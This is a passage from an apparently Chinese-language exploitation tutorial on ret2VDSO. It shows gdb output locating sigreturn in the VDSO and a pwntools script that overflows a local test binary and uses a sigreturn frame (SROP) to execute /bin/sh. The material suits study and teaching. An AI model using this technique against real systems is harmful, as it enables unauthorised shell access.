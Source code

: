 同时，我们在 VDSO 中可以找到 sigreturn 所对应的调用：

```gdb
assassinq>> x/3i 0xf7fd8b71
   0xf7fd8b71 <__kernel_sigreturn+1>:	mov    eax,0x77
   0xf7fd8b76 <__kernel_sigreturn+6>:	int    0x80
   0xf7fd8b78 <__kernel_sigreturn+8>:	nop
```

关闭 ASLR 对 ret2VDSO 进行测试：

```python
#!/usr/bin/env python
from pwn import *

context.log_level = 'debug'
context.terminal = ['lxterminal', '-e']
context.arch = 'i386'

bin_sh_addr = 0x804a020
bss_addr = 0x804a030

p = process('./main')

#gdb.attach(p)

vdso_addr = 0xf7fd8000
print 'Try vdso %s' % hex(vdso_addr)

payload = 'A' * 0x110
frame = SigreturnFrame(kernel="i386")
frame.eax = constants.SYS_execve
frame.ebx = bin_sh_addr
frame.eip = vdso_addr + 0xb76 # address of int 0x80
frame.esp = bss_addr
frame.ebp = bss_addr
frame.gs = 0x63
frame.cs = 0x23
frame.es = 0x2b
frame.ds = 0x2b
frame.ss = 0x2b
ret_addr = vdso_addr + 0xb71 # address of sigreturn
payload += p32(ret_addr) + str(frame)
p.recvuntil('> ')
p.sendline(payload)

p.sendline('echo pwned')
data = p.recvuntil('pwned')
if data != 'pwned':
    raise Exception, 'Failed'

p.interactive()
```
